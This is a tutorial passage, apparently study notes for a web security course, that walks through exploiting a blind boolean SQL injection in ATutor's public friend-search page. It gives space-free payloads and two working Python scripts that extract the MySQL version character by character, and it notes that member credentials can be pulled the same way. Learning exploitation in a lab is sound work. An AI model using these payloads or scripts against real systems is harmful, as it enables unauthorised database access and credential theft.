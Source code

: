## A Small Hurdle
Extracting the data from the database with our blind SQLi, isn't as straight forward.
Our payloads cannot contain any spaces, since they are used as delimiters in the query construction process.

However, since this is an ATutor-related constraint and not something inherent to MySQL, we can replace spaces with anything that constitutes a valid space substitute in MySQL syntax.
For instance, instead of a normal query we can use the following query:

```sql
select/**/1;
```


## Baseline Exploit
Now that we are fully aware of the restrictions in place, our first goal is to create a very simple dummy TRUE/FALSE injection subquery.
The best way to exploit a blind boolean based sqli, is to compare HTML responses.
We can craft simple or even complex boolean based queries to the webserver, and then compare html responses to exfiltrate required data.

2 dummy injections are as follows:
```mysql
#TRUE STATEMENT:
AAAA')/**/or/**/(select/**/1)=1%23;

#FALSE STATMENT:
AAAA')/**/or/**/(select/**/1)=0%23
```

We can also use the atutor mysql database to confirm that these queries will work:

![](../../03.%20Images/t1-ss24.png)

We see that the query returns a 1 as a boolean true result, if we change the 1 to a 0, we get a 0 as a false.

We can use our dummy injections and use a python script to check if the target is vulnerable or not:

```python
import requests
import sys

def searchFriends_sqli(ip, inj_str, query_type):
    target = "http://%s/ATutor/mods/_standard/social/index_public.php?q=%s" % (ip, inj_str)
    r = requests.get(target)
    content_length = int(r.headers['Content-Length'])
    if (query_type==True) and (content_length > 20):
        return True
    elif (query_type==False) and (content_length == 20):
        return True
    else:
        return False

def main():
    if len(sys.argv) != 2:
        print "(+) usage: %s <target>"  % sys.argv[0]
        print '(+) eg: %s 192.168.121.103'  % sys.argv[0]
        sys.exit(-1)

    ip = sys.argv[1]

    false_injection_string = "test')/**/or/**/(select/**/1)=0%23"
    true_injection_string  = "test')/**/or/**/(select/**/1)=1%23"

    if searchFriends_sqli(ip, true_injection_string, True):
        if searchFriends_sqli(ip, false_injection_string, False):
            print "(+) the target is vulnerable!"

if __name__ == "__main__":
    main()
```

The following sends 2 sqli payloads, if the content length(html response) is more than 20, the result of the boolean query is true.
However, if it's less than 20, it's a false.

Running the script, we find that the web app is vulnerable:

![](../../03.%20Images/t1-ss25.png)

## Building The Query
With the baseline exploit ready, we can now build on our script and payload, in order to exfiltrate valuable data.
Given the fact that we are dealing with a blind SQL injection, we have to resort to a byte-by-byte approach.
A query we can use will compare each byte of the subquery result (MySQL version) with a set of characters of our choice.
For instance, we can ask if the first character of the version string is a "4" or "5":
```sql
select/**/(substring((select/**/version()),1,1))='4';
select/**/(substring((select/**/version()),1,1))='5';
```

If the first character of the version string matches with the character we provide, we'll get a true statement, and vice-versa:

![](../../03.%20Images/t1-ss26.png)

For this payload, we rely on the [substring function](https://www.w3resource.com/mysql/string-functions/mysql-substring-function.php).
It is good practice to convert the resultant character to its numeric ASCII value and then perform the comparison.

Our new exploit script would look like as follows:
```python
import requests
import sys

def searchFriends_sqli(ip, inj_str):
    for j in range(32, 126):
        # now we update the sqli
        target = "http://%s/ATutor/mods/_standard/social/index_public.php?q=%s" % (ip, inj_str.replace("[CHAR]", str(j)))
        r = requests.get(target)
        content_length = int(r.headers['Content-Length'])
        if (content_length > 20):
            return j
    return None    

def main():
    if len(sys.argv) != 2:
        print "(+) usage: %s <target>"  % sys.argv[0]
        print '(+) eg: %s 192.168.121.103'  % sys.argv[0]
        sys.exit(-1)

    ip = sys.argv[1]

    print "(+) Retrieving database version...."

    # 19 is length of the version() string. This can
    # be dynamically stolen from the database as well!
    for i in range(1, 20):
        injection_string = "test')/**/or/**/(ascii(substring((select/**/version()),%d,1)))=[CHAR]%%23" % i
        extracted_char = chr(searchFriends_sqli(ip, injection_string))
        sys.stdout.write(extracted_char)
        sys.stdout.flush()
    print "\n(+) done!"

if __name__ == "__main__":
    main()
```

Running the script against our target, we get an error but are still able to extract the database version:

![](../../03.%20Images/t1-ss27.png)

We can similarly extract login names and passwords which are stored in AT_members in the database.
